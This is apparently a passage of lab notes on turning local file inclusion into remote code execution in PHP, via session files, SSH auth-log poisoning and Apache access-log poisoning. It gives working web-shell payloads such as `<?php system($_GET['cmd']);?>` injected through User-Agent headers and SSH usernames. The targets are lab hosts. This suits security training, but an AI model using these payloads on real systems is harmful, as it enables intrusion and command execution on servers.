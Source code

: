 ```
user@machine$ curl -A "<?php phpinfo();?>" http://10-10-122-235.p.thmlabs.com/login.php
```

**LFI to RCE via PHP Sessions**

* The LFI to RCE via PHP sessions follows the same concept of the log poisoning technique.
* PHP sessions are files within the operating system that store temporary information. After the user logs out of the web application, the PHP session information will be deleted.
* This technique requires enumeration to read the PHP configuration file first, and then we know where the PHP sessions files are.
* Then, we include a PHP code into the session and finally call the file via LFI.
* PHP stores session data in files within the system in different locations based on the configuration. The following are some of the common locations that the PHP stores in:

```
c:\Windows\Temp
/tmp/
/var/lib/php5
/var/lib/php/session
```

* Once the attacker finds where PHP stores the session file and can control the value of their session, the attacker can use it to a chain exploit with an LFI to gain remote command execution.
* To find the PHP session file name, PHP, by default uses the following naming scheme, `sess_<SESSION_ID>` where we can find the `SESSION_ID` using the browser and verifying cookies sent from the server.
* To find the session ID in the browser, you can open the developer tools `(SHIFT+CTRL+I)`, then the Application tab.
* From the left menu, select Cookies and select the target website.
* There is a `PHPSESSID` and the value. In my case, the value is `vc4567al6pq7usm2cufmilkm45`.
* Therefore, the file will be as `sess_vc4567al6pq7usm2cufmilkm45`. Finally, we know it is stored in `/tmp`.
* Now we can use the LFI to call the session file.

```
https://10-10-122-235.p.thmlabs.com/login.php?err=/tmp/sess_vc4567al6pq7usm2cufmilkm45
```

#### RCE via SSH

* Try to ssh into the box with a PHP code as username .

```
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

* Then include the SSH log files inside the Web Application.

```
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

#### RCE via Apache logs

* Poison the User-Agent in access logs:

```
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```
